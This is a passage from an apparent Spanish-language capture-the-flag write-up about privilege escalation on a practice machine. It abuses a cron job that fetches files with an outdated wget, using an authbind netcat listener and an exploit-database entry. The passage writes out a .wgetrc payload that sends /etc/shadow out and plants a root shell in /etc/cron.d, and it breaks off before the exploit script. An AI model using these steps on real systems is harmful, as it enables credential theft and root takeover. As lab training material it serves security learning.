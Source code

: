 y ya podemos ver la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
cat flag.txt
```

Hemos podido entrar en el repertorio root pero la flag no es la buena. Hay un fichero app.log y vemos que hay una tarea
que parece que se lanza cada 2 minutos y que nos hace un GET desde la maquina 10.0.3.133 a la maquina victima.

Intentamos ponernos en escucha al puerto 80 con ncat pero tenemos un Permission denied. Miramos si la utilidad authbind esta installada porque
authbind es un binario que permite a un usuario con bajos privilegios de ponerse en escucha por un puerto definido.

```bash
which authbind
ls -la /etc/authbind/byport
```

Aqui vemos que hay dos puertos el 21 y el 80.

```bash
authbind nc -nlvp 80
```

Ya vemos que la tarea sigue siendo ejecutada y vemos que la maquina 10.0.3.133 utiliza una version de Wget que esta desactualizada.

Miramos si existe un exploit para esta version

```bash
searchsploit wget 1.16
```

y vemos que hay un Arbitrary File Upload / Remote Code Execution.

```bash
searchsploit -x 40064
```

Seguimos por pasos la explicacion del exploit

1. creamos un fichero .wgetrc y le insertamos

    ```bash
    cat <<_EOF_>.wgetrc
    post_file = /etc/shadow
    output_document = /etc/cron.d/wget-root-shell
    _EOF_
    ```

1. creamos un script en python 
